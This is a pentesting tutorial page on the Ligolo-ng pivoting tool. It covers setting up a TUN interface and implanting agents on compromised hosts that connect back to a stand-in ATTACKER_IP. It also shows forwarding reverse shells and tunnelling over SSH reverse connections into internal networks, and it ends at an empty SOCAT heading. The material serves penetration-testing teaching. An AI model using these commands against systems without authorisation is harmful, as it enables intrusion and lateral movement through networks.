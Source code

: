 ```yaml
---
description: >-
  Ligolo-ng is a simple, lightweight and fast tool that allows pentesters to
  establish tunnels from a reverse TCP/TLS connection using a tun interface
  (without the need of SOCKS).
---
```


# Ligolo-Ng

Ligolo-Ng is a unique pivoting tool that allows you to create VPN-like tunnels, enabling direct interaction via target IP addresses instead of using socks proxies. With an interactive CLI interface, you can easily jump from one agent to another without any hassle.

Ligolo-Ng has two parts: a proxy that acts as a C2 interface to locate and select your targets, and also enables listeners on the target machine; and an agent that you implant on the target machine to initiate the VPN connection from the target machine to the attacking machine.&#x20;

The agent does not require higher privileges on the target machine, so you can use a classic reverse shell to simplify any attacking methodology. With Ligolo-Ng, you can run any tool from your attacking machine against a target machine by closing the network gap between layers of networks.

{% embed url="https://github.com/tnpitsecurity/ligolo-ng" %}
Latest link in github to download ligolo-ng
{% endembed %}

<figure><img src="../../.gitbook/assets/Untitled Diagram.jpg" alt=""><figcaption><p>A classic scenario for pivoting use cases</p></figcaption></figure>

### Setting up Ligolo-ng

{% hint style="info" %}
Before running Ligolo-ng, you must create a TUN Interface on the attacker PC so that ligolo can add routes to different sub networks. The idea is that when you have a sub network such as \`192.168.0.0/24\` that is inside the tartget network, you can provide the sub network IP address (which can only be reached from an internal network) to any tool you want.
{% endhint %}

`Creating a Tun Interface`

```
# Before running ligolo-ng proxy, you must create a tuntap virtual interface
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
```

<details>

<summary>ligolo-setup-script</summary>

```
#!/bin/bash
me="$(whoami)"
echo "addling ligolo routes to user: $user"

echo "creating the ligolo tun interface"
sudo ip tuntap add user "$me" mode tun ligolo 
sudo ip link set ligolo up

echo "now adding routes $a $b"
a="172.16.0.0/24"
b="192.168.0.0/24"
c="10.10.0.0/24"
sudo ip route add "$a" dev ligolo
echo "done : $a"
sudo ip route add "$b" dev ligolo
echo "done : $b"
sudo ip route add "$c" dev ligolo
echo "done : $c"

echo "good luck! :)"
```

</details>

Once you have added the TUN Interface and the sub networks that you want to access from the attacker PC, you can now launch ligolo proxy on the attacker PC and the agent on an already compromised host in the internal network.

`Connecting to a Ligolo-Agent`

```
# 1. On the attacking machine :
./proxy -selfcert -laddr 0.0.0.0:9901

# 2. On each compromised host with the network that you want to pivot to
./agent -connect ATTACKER_IP:9901
```

### Agent Binding/Listening

`Agent Binding/listening on ligolo allows you to capture reverse shells from an internal network and forward it through the ligolo connection. You can then launch a netcat/pwncat-cs from the attacking machine seamlessly, give you the impression as if you were already in the target network.`

## Ligolo-Ng Pivoting Tutorials / Use Cases

### 1. Accessing the Target Network

Once a connection is establised on the Public Facing Server that is in the Target Network via a reverse shell, it is possible to access/enumerate or exploit any vulnerabilities against a different target in the same network trough ligolo (such as a DMZ) or a target that is in a neighbouring network (in the case of a non-segmented network). This allows an attcker to use their very own tools from the attacking machine.

{% hint style="info" %}
The following method works only when the Target Network has direct access to the attacking machine network, such as in a local network, via port forwarding or a VPN connection. More advanced pivoting techniques will be detailed below.
If the attacking machine is in a NAT network, then, port forwarding should implemented.
{% endhint %}

```
# 1. Follow the ligolo setup process and start the ligolo proxy on the attacking machine 
./proxy -selfcert -laddr 0.0.0.0:9901

# 2. Add a ip route on the attacker machine that will route the target sub network via the ligolo TUN interface
sudo ip route add 192.168.0.0/24 dev ligolo

# 3. Transfer the ligolo agent binary to the compromised target via wget/scp/pwncat-cs

# 4. Initiate a connection from the ligolo agent to the ligolo proxy
./agent -connect ATTACKER_IP:9901

# 5. On ligolo, select the agent that you have deployed on the compromised target (ligolo agent)

# 6. Once selected, type : 
start

//This will now route the sub network 192.168.0.0 via the ligolo TUN interface and through the ligolo tunnel
//Allowing you to use any tool from the attacking maching against the new target machine
```

![image](https://user-images.githubusercontent.com/90450439/221353322-0abc5b8e-01dd-491a-b3f7-0a3b050393ac.png)

### 1.1 Forwarding a reverse shell from the Target Network

Using the Ligolo's Agent Binding/Listening feature, it is possible to recieve a reverse shell connection from a target (in the Target Network) that does not have direct access to the attacking machine (ie. an internet/WAN access). An agent in a compromised server that can communicate with the target can also act as a listner, thus allowing to forward reverse shells through the ligolo tunnel back to the attacking machine.

```
# 1. Establish an agent in the Public Facing server via ligolo agent

# 2. On the ligolo proxy (on the attacking machine), select the agent

# 3. Provide the following command
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:8899 --tcp

# 4. Launch netcat/pwncat-cs on the attacker machine to recieve the reverse shell

//Flags : --addr 0.0.0.0:1234 (the listener IP and port on the compromised server)
//Flags : --to 127.0.0.1:8899 (the netcat/pwncat-cs listner on the attackers machine)
```

{% hint style="info" %}
In the following example, The reverse shell is initiated from the machine 192.168.0.10 in the target network that do not have direct access to the Attacker machine but to the Public Facing Server. When configuring the reverse shell, the connection must be directed to the Public Facing Server's IP address as it is were the ligolo agent will start it's listner that was initiated via listner_add.
{% endhint %}

![image](https://user-images.githubusercontent.com/90450439/221354631-dbcb392f-af06-49d8-a63c-c5c03201c2cd.png)

### 1.2. Accessing the Internal Network 

It is also possible to implant ligolo agents into deeper levels of the network in an organization inorder to compromise additional servers/devices. This follows the simmilar steps that were described for the Public Facing Server. However, this requires once again a reverse shell in the Internal Network or other sorts of foothold as a low privileged user in the internal network. 

```
# 2. Add a ip route on the attacker machine that will route the target sub network via the ligolo TUN interface
sudo ip route add 10.10.0.0/24 dev ligolo

# 3. Transfer the ligolo agent binary to the compromised target via wget/scp/pwncat-cs

# 4. Initiate a connection from the ligolo agent to the ligolo proxy
./agent -connect ATTACKER_IP:9901

# 5. On ligolo, select the agent that you have deployed on the compromised target (ligolo agent)

# 6. Once selected, type : 
start

//This will now route the sub network 10.10.0.0 via the ligolo TUN interface and through the ligolo tunnel
//Allowing you to use any tool from the attacking maching against the new target machine
```
![image](https://user-images.githubusercontent.com/90450439/224545307-05571c12-31a9-41b7-b8cc-8b4365336e77.png)

### 2. Pivoting Ligolo-Ng with SSH access

In the case where the Target Network as well as the Internal Network has no possibility to contact the attacking machine but via a SSH connection, it is possible to initiate a connection from a ligolo agent implanted in the Public Facing Server via a SSH Reverse tunnel. 

To do this, you will first have to initiate a Reverse SSH Connection. This is mainly because the ligolo proxy always listens to connections that are first initiated by the ligolo agent. A reverse ssh connection will allow us to open a port within the Public Facing Server and whatever that connects to that perticular port will then be tunnled trough the SSH connection.

```
//Initiate a Reverse ssh connection to the target server

ssh -R 7878:127.0.0.1:1337 user@target_server_ip
```
![image](https://user-images.githubusercontent.com/90450439/224557695-01ad05f3-a9ca-4456-ac94-246f2b3f5228.png)

Once the ssh tunnel is established, now you can transfer the ligolo agent and run the ligolo agent from the target server, simmilar to the steps shown above..

{% hint style="info" %}
The following method allows only a single ligolo agent connection. Due to the nature of the port mapping that is provided in the SSH reverse connection, once a ligolo agent "occupies" a port, it is not possible to use another ligolo agent on the same port. 
{% endhint %}

```
//On the attacking machine 
./proxy -selfcert -laddr 127.0.0.1:1337

//On the target machine 
./agent -connect 127.0.0.1:7878 -ignore-cert
```
![image](https://user-images.githubusercontent.com/90450439/224558041-d257541d-a8f5-4fdd-9450-e4ef64ae4489.png)

### 2.1 Pivoting Ligolo-Ng with SSH access + SOCAT


